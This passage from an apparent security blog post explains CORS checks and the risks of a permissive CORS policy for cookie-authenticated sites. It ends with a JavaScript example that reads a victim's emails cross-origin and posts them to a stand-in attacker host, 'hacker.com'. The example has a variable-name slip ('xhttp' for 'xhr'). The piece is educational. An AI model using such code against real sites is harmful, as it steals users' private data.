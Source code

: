 If any of these conditions fail, then the entire CORS policy check fails:

-   If the browser performs the CORS check before it makes the request, then it will not send the request.
-   If the browser performs the CORS check after it made the request, then the Javascript code will not get access to the response.

The following graph summarizes the CORS decision tree:

![CORS request decision tree](https://www.devsecurely.com/blog/wp-content/uploads/2024/07/recap3-1024x623.png)

If you want to stay secure, follow us on X for tips and digested security news

## **What are the dangers of a misconfigured CORS policy?**

Browser maintainers designed the CORS mechanism to protect your users. They might inadvertently visit a malicious website. A good CORS policy makes sure that the malicious website can’t make HTTP requests to your website using the user’s identity.

The CORS policy is defined using HTTP response headers. Thus, it is the developer’s job to define a strict enough CORS policy. One that prevents malicious requests from other origins.

CORS is especially pertinent on websites that use cookies to authenticate users—like session cookies—. This is because, in a “with credentials” AJAX setting, the browser automatically sends the cookies with the request. This makes the request seem as if it came from the legitimate user.

But, if you use another form of authentication method. For example, you send an authentication token in the HTTP header “Authorization”. Then the CORS policy is less pertinent. If a malicious website performs an AJAX request, it would not be able to make the browser add the token to the request. And the malicious website does not have access to the legitimate website’s local storage. Thus, it doesn’t have access that token, and it cannot add it to the AJAX call. Your website will be, by default, protected from this attack scenario.

In case of an authentication by cookie, and a permissive CORS policy, some bad things could happen. Suppose a user visits a malicious website, here are some possible attack scenarios:

-   The malicious website performs an AJAX request to retrieve the user’s emails on Gmail. The Javascript code then can send those emails to the hacker who set up the website.
-   The malicious website can perform a specific HTTP POST request to Gmail. This request changes the user’s settings, so that the hacker can send emails in the victim’s name.
-   The malicious website can perform a specific HTTP POST request to Gmail to change the victim’s Gmail password.

The following Javascript code snipped shows how an attacker could retrieve the victim’s emails, and send them back to his own server. He can store them there and consult them afterwards:

```javascript
var xhr = new XMLHttpRequest()
xhr.open( 'GET', 'https://gmail.com/emails')
xhr.withCredentials = true
xhr.onreadystatechange = function() {
  if (this.readyState == 4 && this.status == 200) {
    
     var xhr2 = new XMLHttpRequest()
     xhr2.open( 'POST', 'https://hacker.com/save_emails')
     var params = 'emails='+xhttp.responseText;
     xhr2.send(params);
  }
};
xhr.send();
```
